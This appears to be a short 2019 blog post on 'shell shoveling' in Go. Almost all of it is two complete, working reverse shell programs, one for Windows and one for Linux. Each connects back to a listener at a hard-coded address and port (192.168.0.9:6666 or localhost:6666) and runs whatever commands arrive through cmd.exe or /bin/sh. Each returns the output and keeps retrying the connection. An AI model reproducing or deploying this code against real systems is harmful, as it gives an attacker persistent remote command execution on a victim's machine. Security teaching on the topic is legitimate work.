 ```yaml
---
layout: post
title: "A Simple Reverse Shell In Golang 🐚"
date: 2019-07-16 12:01:00 -0700
categories: go golang reverse shell infosec
published: true
---
```


This article assumes programming proficiency in `Golang` and familiarity with network programming concepts such as TCP/IP & sockets.

## **Shell Shoveling In Golang**

This is a simple example of a reverse shell I wrote in the programming language `Go`. This first code snippet was written for the Windows operating system.

```go

package main

import (
    "bufio"
    "fmt"
    "net"
    "os"
    "os/exec"
    "runtime"
    "strings"
    "time"
)

func main() {
    for {
        conn, err := net.Dial("tcp", "192.168.0.9:6666")
        if err != nil {
            time.Sleep(10 * time.Second)
            continue
        }
        fmt.Fprintf(conn, "\nOS: %s\nArchitecture: %s\n", runtime.GOOS, runtime.GOARCH)
        shell := os.Getenv("ComSpec")
        fmt.Fprintf(conn, "shell: %s\n\n", shell)

        scanner := bufio.NewScanner(conn)
        for scanner.Scan() {
            data := scanner.Text()
            out, _ := exec.Command(
                shell,
                append(
                    []string{"/C"},
                    // strings.Split(strings.TrimSpace(data), " ")...,
                    strings.TrimSpace(data),
                )...,
            ).CombinedOutput()

            fmt.Fprintf(conn, "\n%s\n", string(out))
        }

        if err := scanner.Err(); err != nil {
            fmt.Fprintf(conn, "\nError: %s ...\n", err)
        }

        time.Sleep(5 * time.Second)
    }
}

```

This second snippet was written for the linux operating system. You can see very minor differences.

```go
package main

import (
	"bufio"
	"fmt"
	"net"
	"os/exec"
	"runtime"
	"strings"
	"time"
)

func main() {
	for {
		conn, err := net.Dial("tcp", "localhost:6666")
		if err != nil {
			time.Sleep(10 * time.Second)
			continue
		}
		fmt.Fprintf(conn, "\nOS: %s\nArchitecture: %s\n", runtime.GOOS, runtime.GOARCH)
		shell := "/bin/sh"
		fmt.Fprintf(conn, "shell: %s\n\n", shell)

		scanner := bufio.NewScanner(conn)
		for scanner.Scan() {
			data := scanner.Text()
			out, _ := exec.Command(
				shell,
				append(
					[]string{"-c"},
					strings.TrimSpace(data),
				)...,
			).CombinedOutput()

			// cmd := strings.Split(strings.TrimSpace(data), " ")
			// out, _ := exec.Command(cmd[0], cmd[1:]...).CombinedOutput()

			fmt.Fprintf(conn, "\n%s\n", string(out))
		}

		if err := scanner.Err(); err != nil {
			fmt.Fprintf(conn, "\nError: %s ...\n", err)
		}

		time.Sleep(5 * time.Second)
	}
}
```